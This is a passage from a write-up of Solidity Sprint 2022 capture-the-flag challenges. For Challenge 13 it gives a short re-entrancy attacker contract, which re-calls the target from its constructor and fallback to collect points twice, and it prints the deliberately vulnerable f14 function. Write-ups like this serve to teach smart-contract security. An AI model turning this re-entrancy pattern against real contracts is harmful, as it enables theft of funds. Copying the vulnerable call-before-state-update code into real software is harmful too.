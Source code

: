 ```
bytes memory c = hex"1625d7fe";
sprint.f12(c);
```

## Challenge 13

This is your garden variety re-entry attack. You can find more info here. We simply need to enter the contract, then wait for it to call back to us, and then re-enter the function to get the points.
https://solidity-by-example.org/hacks/re-entrancy/

```
    function testf13() public pointsIncreased {
        new tempAttacker(address(this), address(sprint));
    }

    contract tempAttacker {

    address public immutable teamAddr;
    address public immutable currSprint;

    constructor(address _teamAddr, address _currSprint) {
        teamAddr = _teamAddr;
        currSprint = _currSprint;
        SoliditySprint2022(currSprint).f14(teamAddr);
    }

    fallback() external {
        SoliditySprint2022(currSprint).f14(teamAddr);
    }
}
```

## Challenge 14
```
function f14(address team) public isLive {
    uint fNum = 14;

    require(!progress[team][fNum]);

    require(msg.sender.code.length == 0);
    require(msg.sender != tx.origin);

    if (entryCount[team] == 0) {
        entryCount[team]++;
        (bool sent, ) = msg.sender.call("");
        require(sent);
    }

    givePoints(fNum, team, 3000);
}
```

